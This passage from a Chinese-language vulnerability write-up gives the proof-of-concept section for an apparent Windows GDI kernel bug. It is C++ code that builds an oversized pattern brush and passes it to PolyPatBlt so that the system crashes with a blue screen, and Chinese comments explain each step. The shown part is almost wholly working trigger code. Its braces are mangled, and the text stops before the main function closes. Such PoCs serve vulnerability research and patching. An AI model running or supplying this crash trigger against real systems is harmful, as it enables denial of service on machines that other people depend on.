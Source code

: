 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t011771f407e3f986df.png)



## 4、POC代码

### <a class="reference-link" name="4.1%20BOSD"></a>4.1 BOSD

```
#include "stdafx.h"
#pragma once

#include "targetver.h"

#include &lt;stdio.h&gt;
#include &lt;tchar.h&gt;
#include &lt;Windows.h&gt;
#include &lt;wingdi.h&gt;
#include &lt;iostream&gt;
#include &lt;Psapi.h&gt;
#pragma comment(lib, "psapi.lib")
typedef BOOL (WINAPI *PFN_PolyPatBlt)(
    HDC hdc,
    DWORD rop,
    PVOID pPoly,
    DWORD Count,
    DWORD Mode
);
PFN_PolyPatBlt PfnPolyPatBlt = NULL;
typedef struct _PATRECT `{`
    INT nXLeft;
    INT nYLeft;
    INT nWidth;
    INT nHeight;
    HBRUSH hBrush;
`}` PATRECT, *PPATRECT;
void Test()
`{`
    //获取当前桌面设备上下文的DC对象句柄
    HDC hdc = GetDC(NULL);
    //创建位图，宽为0x6D，高为0x12AE8F，色平面数为1，用一位表示一个像素
    HBITMAP hbmp = CreateBitmap(0x6D, 0x12AE8F, 1, 1, NULL);
    //通过hbmp这个位图对象获取BRUSH对象
    HBRUSH hbru = CreatePatternBrush(hbmp);
    //通过 GetProcAddress 动态获取gdi32的地址
    PfnPolyPatBlt = (PFN_PolyPatBlt)GetProcAddress(GetModuleHandleA("gdi32"), "PolyPatBlt");
    //对PATRECT结构中的成员变量进行赋值
    PATRECT ppb[1] = `{` 0 `}`;
    ppb[0].nXLeft = 0x100;
    ppb[0].nYLeft = 0x100;
    ppb[0].nWidth = 0x100;
    ppb[0].nHeight = 0x100;
    ppb[0].hBrush = hbru;
    PfnPolyPatBlt(hdc, PATCOPY, ppb, 1, 0);
`}`


int _tmain(int argc, _TCHAR* argv[])
`{`
    Test();
    return 0;
```